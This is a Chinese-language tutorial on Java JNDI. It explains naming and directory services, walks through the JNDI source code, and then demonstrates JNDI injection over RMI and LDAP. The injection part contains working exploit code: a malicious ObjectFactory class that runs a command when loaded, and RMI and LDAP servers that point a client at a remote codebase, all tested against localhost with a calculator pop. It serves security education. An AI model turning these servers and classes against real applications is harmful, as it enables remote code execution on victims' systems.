# JNDI基础

## 初识JNDI

JNDI（Java Name and Directory Interface，Java 命名和目录接口）是一种标准的 Java 命名系统接口，JNDI 提供统一的客户端 API，并由管理者将 JNDI API 映射为特定的**命名服务**和**目录服务**，为开发人员查找和访问各种资源提供了统一的通用接口，可以用来定义用户、网络、机器、对象和服务等各种资源。简单来说，开发人员通过使用 JNDI，可以让用户通过统一的方式访问和获取网络上各种资源和服务，如下图所示：



这里有两个重要的概念：命名服务（Naming Server）和目录服务（Directory Server）。

### 命名服务

简单来说，命名服务是一种通过名称来查找实际对象的服务，比如我们前面学过的 RMI 协议，就可以通过名称来查找（lookup）并调用具体的远程对象。除此之外，我们经常接触到的 DNS 协议，也是通过域名来查找具体的 IP 地址，这就是命名服务的基本概念。

在 JNDI 的命名服务中，有几个重要的概念需要了解：

- `Bindings`：表示一个名称和对应对象的绑定关系，例如 RMI 中将远程对象绑定到对应的 name 中，DNS 中域名绑定到对应的 IP；
- `Context`：上下文，一个上下文中对应着一组名称和对象的绑定关系。我们可以根据指定上下文中查找名称所对应的对象。以文件系统举例，一个文件夹目录就是一个上下文，我们可以在该目录中查找所需要的文件，其中的子目录也可以称为子上下文（SubContext）；
- `References`：在实际的名称服务中，有些对象可能无法直接存储在系统内，此时可以让这些对象以引用的形式进行存储，类似于 C/C++ 中的指针概念。在引用中包含了获取实际对象所需要的信息，比如 Linux 系统中，根据名称打开的文件是一个 fd（file descriptor），内核根据这个引用值去找到磁盘中对应位置和偏移，这就是引用的一个实际案例。

### 目录服务

目录服务是命名服务的扩展，除了名称服务中已有的名称和对象的关联信息外，还允许对象拥有属性（Attributes）信息。因此，我们除了可以通过名称去查找对象，还可以根据属性值去搜索对象。

以下是一些常见的目录服务：

- `LDAP`：轻型目录访问协议。
- `Active Directory`：为 Windows 域网络设计，包含多个目录服务，比如域服务、证书服务等。
- 其他基于 X.500（目录服务的标准）实现的目录服务。

### JNDI SPI

JNDI 架构上主要包含两个部分，即 Java 的应用层接口和 SPI，如下图所示：


SPI（Service Provider Interface）即服务供应接口，主要作用是为底层的具体目录服务提供统一接口，从而实现目录服务的可插拔式安装。

JDK 中包含了下述内置的命名目录服务：

- `RMI`：Java 远程方法调用；
- `LDAP`：轻量级目录访问协议；
- `CORBA`：通用对象请求代理结构（Common Object Request Broker Architecture），用于 COS 名称服务（Common Object Services）；
- `DNS`：域名转换协议。

除了上述所列举的目录服务，还可以在 Java 官网上下载其他的目录服务实现，因为 SPI 的存在，厂商可以提供自己的私有目录服务实现，用户无需重复修改代码。

## JNDI示例

JDK 提供了以下几个包来完成 JNDI 的功能实现：

- `javax.naming`：主要用于命名操作，包含了访问命名服务的类和接口，该包定义了`Context`接口和`InitialContext`类，其中`Context`是查找、绑定/解绑定、重命名对象以及创建和销毁子上下文的核心接口；
- `javax.naming.directory`：主要用于目录操作，定义了`DirContext`接口和`InitialDir-Context`类；
- `javax.naming.event`：用于支持命名和目录服务中的事件通知的类和接口；
- `javax.naming.ldap`：提供 LDAP 服务支持；
- `javax.naming.spi`：允许动态插入不同的实现，为不同命名和目录服务供应商的开发人员可以开发和连接他们的实现的方法，以便可以从使用 JNDI 的应用程序访问相应的服务。

接下来，我们通过具体 demo 来实现 JNDI 与各服务进行交互的效果。

### JNDI_RMI

先把 RMI 服务起好，接口`UserInterface`
```java
package com.rmi.server;

import java.rmi.Remote;

/**
 * Created by dotast on 2023/1/3 17:12
 */
public interface UserInterface extends Remote {
    public Object getUser() throws Exception;

    public void setUser(Object user) throws Exception;
}
```

`UserClass`类

```java
package com.rmi.server;

import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

/**
 * Created by dotast on 2023/1/3 17:14
 */
public class UserClass extends UnicastRemoteObject implements UserInterface {

    protected UserClass() throws RemoteException {
    }

    @Override
    public String getUser() throws Exception{
        System.out.println("调用getUser方法成功");
        Runtime.getRuntime().exec("open -a Calculator.app");
        return "dotast";
    }

    @Override
    public void setUser(Object user) throws Exception {
        System.out.println("调用setUser方法成功");
    }
}

```

`RmiServer`类

```java
package com.rmi.server;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * Created by dotast on 2023/1/3 17:13
 */
public class RmiServer {
    public static void main(String[] args) throws Exception {
        // 创建远程对象
        UserInterface userClass = new UserClass();
        // 创建RMI Registry(注册表)
        Registry registry = LocateRegistry.createRegistry(1099);
        // 将远程对象注册到注册表,设置名称
        registry.bind("user", userClass);
        System.out.println("RMI Server start...");
    }
}
```

启动服务端


开始编写`JNDI_RMI`类，通过 JNDI 接口调用远程对象方法
```java
package com.jndi;

import com.rmi.server.UserInterface;

import javax.naming.Context;
import javax.naming.InitialContext;
import java.util.Hashtable;

/**
 * Created by dotast on 2023/1/28 15:35
 */
public class JNDI_RMI {
    public static void main(String[] args) throws Exception{
        // 设置 JNDI 环境变量
        Hashtable<String, String> env = new Hashtable<>();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        env.put(Context.PROVIDER_URL, "rmi://localhost:1099");
        //初始化上下文
        InitialContext initialContext = new InitialContext(env);
        // 调用远程类
        UserInterface userInterface = (UserInterface) initialContext.lookup("user");
        userInterface.getUser();
    }
}
```

运行后成功调用到远程对象的`getUser()`方法，弹出计算器


### JNDI_DNS

以 JDK 内置的 DNS 目录服务为例：
```java
package com.jndi;

import javax.naming.Context;
import javax.naming.directory.Attributes;
import javax.naming.directory.DirContext;
import javax.naming.directory.InitialDirContext;
import java.util.Hashtable;

/**
 * Created by dotast on 2023/1/28 15:50
 */
public class JNDI_DNS {
    public static void main(String[] args) throws Exception{
        // 设置JNDI环境变量
        Hashtable<String, String> env = new Hashtable<>();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.dns.DnsContextFactory");
        env.put(Context.PROVIDER_URL, "dns://192.168.0.1");

        DirContext dirContext = new InitialDirContext(env);
        Attributes attribute = dirContext.getAttributes("github.com", new String[]{"A"});
        System.out.println(attribute);
    }
}
```

运行结果


## JNDI的工作流程

在前面我们通过 JNDI 成功调用了 RMI 和 DNS 的服务，过程也很简单，初始化`Context`后，接着通过`Context`来与服务进行交互。

我们以 RMI 的 demo 为例进行说明
```java
package com.jndi;

import com.rmi.server.UserInterface;

import javax.naming.Context;
import javax.naming.InitialContext;
import java.util.Hashtable;

/**
 * Created by dotast on 2023/1/28 15:35
 */
public class JNDI_RMI {
    public static void main(String[] args) throws Exception{
        // 设置 JNDI 环境变量
        Hashtable<String, String> env = new Hashtable<>();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        env.put(Context.PROVIDER_URL, "rmi://localhost:1099");
        //初始化上下文
        InitialContext initialContext = new InitialContext(env);
        // 调用远程类
        UserInterface userInterface = (UserInterface) initialContext.lookup("user");
        userInterface.getUser();
    }
}
```

一开始，通过`Hashtable`创建了一个哈希表，然后设置`Context.INITIAL_CONTEXT_FACTORY`和`Context.PROVIDER_URL`属性的键值对。

通过`Context.INITIAL_CONTEXT_FACTORY`属性的值`com.sun.jndi.rmi.registry.RegistryContextFactory`让 JNDI 调用 RMI 服务，而`Context.PROVIDER_URL`属性则提供给 JNDI 要调用的服务的地址。

接着通过我们设置好的属性值初始化`InitialContext`类，获得一个与 RMI 服务相关联的上下文`initialContext`。我们来看看`InitialContext`类的构造函数


可以看到`InitialContext`类不止一种初始化方式。接下来看看与服务交互的方式（截图不全，例如还有`bind()`方法），其实并不陌生


和前面学习过的 RMI 一样，这里就不再赘述，忘记的就回去看看 RMI 的交互方式。

## JNDI的底层实现

我们从源码跟一下 JNDI 的工作流程，打上断点


跟进`InitialContext`类构造方法


传入我们构造的`Hashtable`参数到`init()`方法进行初始化，继续跟进


在`init()`方法最后调用了`getDefaultInitCtx()`方法，继续跟进看看


接着调用`NamingManager.getInitialContext()`方法，继续跟进


可以看到如果初始化`InitialContextFactoryBuilder`对象为空，则将`className`设置为`Context.INITIAL_CONTEXT_FACTORY`，即我们设置的`com.sun.jndi.rmi.registry.RegistryContextFactory`上下文工厂类

继续往下走


最后动态加载并实例化我们的 RMI 上下文工厂类`com.sun.jndi.rmi.registry.RegistryContextFactory`

`getInitialContext()`方法走到最后，调用了`factory.getInitialContext()`方法


跟进该方法


调用了`URLToContext()`方法，其中又包含了一个`getInitCtxURL()`方法，先跟进看看`getInitCtxURL()`方法


获取我们的`java.naming.provider.url`属性值并返回，接着看看`URLToContext()`方法


创建初始化一个`rmiURLContextFactory`类对象，并调用该对象的`getObjectInstance()`方法，跟进看看


进入第二个 if 条件，那就继续跟进看看`getUsingURL()`方法


创建初始化`rmiURLContext`类后，调用`lookup()`方法，跟进


接着最后调用`RegistryContext.lookup()`方法，跟进


这里初始化了新的`RegistryContext`类


最终在初始化`RegistryContext`类的时候获取了 RMI 通信过程中所需资源，也就是获取服务交互所需要的资源。

接着回到`lookup()`方法


最后调用了`decodeObject()`方法，跟进看看


很显然在`getObjectInstance()`方法中完成了获取远程工厂类的功能


## JNDI动态协议转换

在前面的 RMI 的 demo 中，我们是通过设置`INITIAL_CONTEXT_FACTORY`属性和`PROVIDER_URL`属性来初始化`InitialContext`类对象，目的是让 JNDI 按照我们设置的内容去调用相关服务。

但 JNDI 并没有这么死板，可以通过用户的输入来动态识别用户需要调用的服务和相关服务路径，以下是一个动态识别调用 demo：
```java
package com.jndi;

import com.rmi.server.UserInterface;
import javax.naming.InitialContext;

/**
 * Created by dotast on 2023/1/28 15:35
 */
public class JNDI_RMI {
    public static void main(String[] args) throws Exception{
        String target = "rmi://localhost:1099/user";
        //初始化上下文
        InitialContext initialContext = new InitialContext();
        // 调用远程类
        UserInterface userInterface = (UserInterface) initialContext.lookup(target);
        userInterface.getUser();
    }
}
```


可以看到，我们在初始化的时候并没有设置相关属性，只是传了`target`参数到`lookup()`方法依然能成功调用 RMI 服务。JNDI 是如何实现的呢？我们打上断点跟进`lookup()`方法看看


在`lookup()`方法中调用了`getURLOrDefaultInitCtx()`方法，这里可以看到不止`lookup()`方法会调用到，其他`bind()`等之类的方法也会调用到，跟进该方法看看


这里通过`getURLScheme()`方法获取服务协议，像这里是获取到`rmi`，然后接着调用`NamingManager.getURLContext()`方法，继续跟进


调用了`getURLObject()`方法，跟进


可以清晰的看到，在`getURLObject()`方法中根据协议动态生成工厂类，最后像前面分析的一样进入到`getObjectInstance()`方法获取服务所需资源。

这里最后调用的`defaultPkgPrefix`为`com.sun.jndi.url`，我们可以看看这个包下面包含的服务有哪些


上面的 demo 中，如果`target`成为一个可控点，那么我们就可以搭建一个恶意服务，让 JNDI 访问该服务，加载我们的恶意 class 文件，触发命令执行，这种攻击方法又称为 JNDI 注入。

## JNDI注入

### Reference类

在开头，我们提过`Reference`类的引用概念，它的功能是对存在于命名或者目录系统以外的对象的引用，简单来说，就是当我们在本地找不到所调用的类时，可以通过`Reference`类来调用位于远程服务器上的类。

我们可以看看`Reference`类的几种构造方法


```java
/*
参数：
className 远程加载时所使用的类名
factory  加载的 class 中需要实例化类的名称
factoryLocation  提供 classes 数据的地址可以是 file/ftp/http 协议
*/

//为类名为 className 的对象构造一个新的引用。
Reference(String className) 
//为类名为 className 的对象和地址构造一个新引用。 
Reference(String className, RefAddr addr) 
//为类名为 className 的对象，对象工厂的类名和位置以及对象的地址构造一个新引用。 
Reference(String className, RefAddr addr, String factory, String factoryLocation) 
//为类名为 className 的对象以及对象工厂的类名和位置构造一个新引用。  
Reference(String className, String factory, String factoryLocation)
```

我们可以通过下面的攻击流程图来了解在 JNDI 注入过程中，各个角色所发挥的作用



### JNDI+RMI注入

我们按照上图的 JNDI 注入流程图来进行就可以，先编写恶意类`EvilClass`，这里继承`ObjectFactory`类需要重写`getObjectInstance()`方法
```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.IOException;
import java.util.Hashtable;

/**
 * Created by dotast on 2023/1/30 16:40
 */
public class EvilClass implements ObjectFactory {
    static {
        try {
            Runtime.getRuntime().exec("open -a Calculator.app");
            System.out.println("init");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

    public EvilClass(){
        System.out.println("public");
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```

RMI 服务端`RMIServer_JNDI`类
```java
package com.rmi.server;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * Created by dotast on 2023/1/30 15:10
 */
public class RMIServer_JNDI {
    public static void main(String[] args) throws Exception{
        //创建RMI注册表
        Registry registry = LocateRegistry.createRegistry(1099);
        String factorUrl = "http://127.0.0.1:6666/";
        //类名为EvilClass的对象，对象工厂的类名和位置以及对象的地址构造一个新引用。
        Reference reference = new Reference("EvilClass", "EvilClass", factorUrl);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("exp", referenceWrapper);
        System.out.println("RMIServer_JNDI start...");
    }
}
```

客户端`JNDI_RMI`类
```java
package com.jndi;

import javax.naming.InitialContext;

/**
 * Created by dotast on 2023/1/28 15:35
 */
public class JNDI_RMI {
    public static void main(String[] args) throws Exception{
        String target = "rmi://localhost:1099/exp";
        //初始化上下文
        InitialContext initialContext = new InitialContext();
        Object ret = initialContext.lookup(target);
    }
}
```

先把恶意类`EvilClass`编译成 class 文件，然后在该 class 文件当前目录通过 python 启动一个 http 服务


启动 RMI 服务端


启动客户端连接，成功执行恶意类代码弹出计算器


### JNDI+LDAP注入

前面提到过，LDAP（Lightweight Directory Access Protocol ，轻型目录访问协议）是一种目录服务协议，运行在 TCP/IP 堆栈之上，是由目录数据库和一套访问协议所组成的系统。目录服务是一个特殊的数据库，用来保存描述性的、基于属性的详细信息、能够进行查询、浏览和搜索、以树状结构组织数据。LDAP 目录服务基于客户端-服务器模型，主要用于对一个存在目录数据库的访问。

LDAP 协议在不同平台上有着不同版本的实现，在 Windows 平台上有微软的 AD（Active Directory），在 Linux 平台上有OpenLDAP。我们常说的 LDAP Server 一般指的是安装并且配置了这些程序的服务器。

在 LDAP 中，我们通过目录树来访问一条记录，目录树的结构如下所示：
```
dn ：一条记录的详细位置
dc ：一条记录所属区域    (哪一颗树)
ou ：一条记录所属组织    （哪一个分支）
cn/uid：一条记录的名字/ID   (哪一个苹果名字)
...
LDAP目录树的最顶部就是根，也就是所谓的“基准DN"。
```

如果我们需要获取一条记录也就是树上的苹果，需要先知道在那一颗树上（dc），接着需要知道在哪一个分支（ou），最后就是靠苹果的名字（cn/uid）搜索到。

当然，LDAP 与我们本文主题最重要的关系就是它能够存储 Java 对象，如果能够控制 JNDI 访问存储在 LDAP 上的恶意 Java 对象，就能实现 RCE 的目的。以下是  LDAP 能够存储的 Java 对象条件：

- 序列化对象
- JNDI References 对象
- Marshalled 对象
- Remote Location

接下来我们就通过一个简单 demo 完成 JNDI 注入攻击，写在 pom 文件引入 LDAP 的依赖：
```xml
<dependency>
    <groupId>com.unboundid</groupId>
    <artifactId>unboundid-ldapsdk</artifactId>
    <version>3.1.1</version>
</dependency>
```

恶意类文件`EvilClass`还是继续用前面 RMI 的，LDAP 服务端代码为
```java
package com.jndi.server;
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;

public class LDAPServer_JNDI {

    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) {
        String[] args=new String[]{"http://127.0.0.1:6666/#EvilClass"};
        int port = 9999;

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("LDAP Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```

客户端`JNDI_LDAP`类
```java
package com.jndi.client;

import javax.naming.InitialContext;

/**
 * Created by dotast on 2023/2/1 11:28
 */
public class JNDI_LDAP {
    public static void main(String[] args) throws Exception{
        String target = "ldap://localhost:9999/EvilClass";
        //初始化上下文
        InitialContext initialContext = new InitialContext();
        Object ret = initialContext.lookup(target);
    }
}
```

先在恶意类文件目录通过 python 启动 http 服务，然后启动 LDAP 服务端


然后运行客户端


成功执行恶意类代码弹出计算器，完成 RCE。

## JDK高版本下的限制及绕过

### JNDI_RMI限制

在`JDK 6u132`、`JDK 7U122`、`JDK 8U133`版本之后，Java 限制了通过`RMI`远程加载`Refererce`工厂类，以下属性被默认设置为 false
```
com.sun.jndi.rmi.object.trustURLCodebase = false
```

因此在高版本下的 JDK 默认不信任远程代码，如果继续使用会报以下错误


报错原因也告诉了我们报错点在`RegistryContext#decodeObject()`方法，跟去看看


可以对比我们前面在低版本 JDK 下分析的结果，这里多加了一个判断，其中就包含了对`trustURLCodebase`属性的检查，在对
